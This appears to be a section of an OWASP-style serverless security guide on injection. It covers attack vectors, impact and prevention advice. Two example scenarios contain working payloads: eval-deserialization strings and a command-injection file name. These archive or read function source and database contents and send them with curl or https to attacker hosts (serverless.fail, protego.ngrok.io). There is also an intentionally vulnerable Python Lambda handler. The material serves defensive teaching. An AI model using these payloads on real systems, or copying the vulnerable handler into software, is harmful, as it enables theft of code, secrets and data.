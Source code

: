 # S1:2017 Injection

## Attack Vectors

Attack vectors for injections in traditional applications are usually referred to any location where the input to the application can be controlled or manipulated by the attacker. However, in serverless applications the attack surface increases.

Since serverless functions can also be triggered from different events sources like cloud storage events (S3, Blob and other cloud storage), Stream data processing (e.g. AWS Kinesis), databases changes (e.g. DynamoDB, CosmosDB), code modifications (e.g. AWS CodeCommit) notifications (e.g. SMS, Emails, IoT) and more, we should no longer consider input coming directly from the API calls as the sole attack surface. 

Moreover, we no longer have control of the line between the origin to the resource. If a function is triggered via email or a database, there is nowhere to put a Firewall or any other control that will validate the event.

## Security Weakness

The traditional SQL/NoSQL Injection will be the same. OS Command Injection might not target the files in the container (e.g. `/etc/host`), but source code and other secrets could be found in the container. Code injection will allow an attacker to use the provider’s API to scan and interact with other services in the account.

## Impact

The impact of a successful injection attack will lean on the permission the vulnerable function has. If the function has been assigned a role that grants it liberal access to a cloud storage, then injected code could delete data, upload corrupted data, etc. If the function has been granted access to a database table, it could delete records, insert records, etc. Roles that allow creating users and permissions can eventually lead into a cloud account takeover.

## How to Prevent

- Never trust, pass or make any assumptions regarding input and its validity from any resource
- Use a safe API, which avoids the use of the interpreter entirely or provides a parameterized interface, or migrate to use Object Relational Mapping Tools (ORMs)
- Use positive or “whitelist” input validation when possible
- Identify trusted sources and resources and whitelist them, if possible
- For any residual dynamic queries, escape special characters using the specific escape syntax for that interpreter
- Consider all event types and entry points into the system
- Run functions with the least privileges required to perform the task to reduce attack surface
- Use a commercial runtime defense solution to protect functions on execution time

## Example Attack Scenario I

The following function code, repeatedly found in the wild, deserializes data using the `eval()` function:
![injection-1](images/0x01-injection-1.png)

The untrusted input is sent from the trigger’s event to the unserialize function without any validation. By sending the following payload, attackers can steal the source code of the function, simply by creating a new child_proccess that will zip the source-code found in the current directory, wrapping it up with base64 and sending it to any server they have access to:

>
    _$$ND_FUNC$$_function(){require("child_process").exec("tar -pcvzf /tmp/source.tar.gz ./;
    b=`base64 --wrap=0 /tmp/source.tar.gz`; curl -X POST https://serverless.fail/ --data
    $b",function(){});}()

The attacker can now investigate the code and use it to create a more cloud-native attack. For example, using the provider’s API to read from the database:

>
    _$$ND_FUNC$$_function(){var s=require("aws-sdk");var h=require("https"); var d=new
    s.DynamoDB.DocumentClient;d.scan({TableName:process.env.DYNAMODB_TABLE},function(e,a)
    {if(e);else{var t=Buffer.from(JSON.stringify(a)).toString();;var
    h.get(“https://serverless.fail?encodeURI(t)”),function(e){})}});}()

## Example Attack Scenario II

A function is triggered from a storage file upload. The function then downloads the file and processes it.

```python
import boto3, subprocess, datetime, urllib

def lambda_handler(event, context):
   media_bucket = 'upload-bucket'
   s3 = boto3.client('s3')
   list = s3.list_objects(Bucket=media_bucket)['Contents']
   for s3_key in list:
      key = urllib.unquote(s3_key['Key'].replace('+', ' ')).decode('utf-8')
      now = datetime.datetime.now()
      fname = now.strftime("%Y%m%d%H%M%S") + '.jpg'
      fpath = '{year}/{month}/{day}/'.format(year=now.year, month=now.month, day=now.day)
      subprocess.call('mkdir -p /tmp/' + fpath, shell=True)
      if key.endswith(".jpg"):
         s3.download_file(media_bucket, key, '/tmp/' + fpath + fname)
      else:
         s3.download_file(media_bucket, key, '/tmp/' + key)
         convert_command = 'cd /tmp; convert {source} {path}{file}'.format(source=key, path=fpath, file=fname)
         subprocess.call(convert_command, shell=True)
```

However, the the function is vulnerable to command injection, in case a downloaded file does not end with the required file extension (i.e. `.jpg`).

To exploit that, an attacker uses the application legitimately, but uploads two files. One of them contains a command injection syntax in its name:

>
    chip.gif c.jpg;cd ..; cd var;cd task;f=`head -50 lambda_function.py|base64 --wrap=0`;curl
    protego.ngrok.io?l="$f"

![injection-3](images/0x01-injection-3.png)

To exploit this vulnerability, the attacker needed to:

- Address an existing file (i.e. chip.gif, which he himself uploaded before)
- Exit the `/tmp` folder
- Enter the `/var/task` folder (Use of `/` in the object name is not allowed)
- Read the first 50 lines of `lambda_function.py` and with it the hardcoded keys to the management AWS account
- Wrap the code in base64
- Send it to a destination held by the attacker

As a result of the Lambda execution, a request is sent to the attacker, containing the function’s code:

![injection-4](images/0x01-injection-4.png)

![injection-5](images/0x01-injection-5.png)

